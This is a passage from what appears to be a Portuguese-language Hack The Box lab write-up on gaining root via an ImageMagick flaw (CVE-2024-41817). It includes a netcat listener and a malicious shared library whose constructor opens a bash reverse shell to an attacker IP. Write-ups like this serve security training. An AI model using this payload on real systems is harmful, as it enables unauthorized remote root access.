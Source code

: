 ```bash
sudo nc -nlvp 4444
```

No diretório do nosso usuário "developer", iremos criar a biblioteca que nos
concedera o acesso root.

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.112/4444 0>&1'");
    exit(0);
}
EOF
```

Acesse o diretório de root e colete a flag.

## Conclusão

Este exercício demonstrou a exploração da vulnerabilidade de Path Traversal para
extração de dados sensíveis e o aproveitamento de configurações vulneráveis do
Gitea para escalonamento de privilégios. A exploração da vulnerabilidade no
ImageMagick
[CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
permitiu a execução de código levando a flag de root.

## Referências

- [Hack The Box](https://app.hackthebox.com/home)
- [ImageMagick CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
- [Documentação do Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [Documentação Gitea](https://docs.gitea.com/administration/config-cheat-sheet)

## Contribuidores

- [Andre](https://www.linkedin.com/in/andreluisdantas65)
- [Rio](https://www.linkedin.com/in/rio-ribeiro)
- [Lucas](https://www.linkedin.com/in/lucas-rs-melo)
- [Paixao](https://www.linkedin.com/in/darccau)
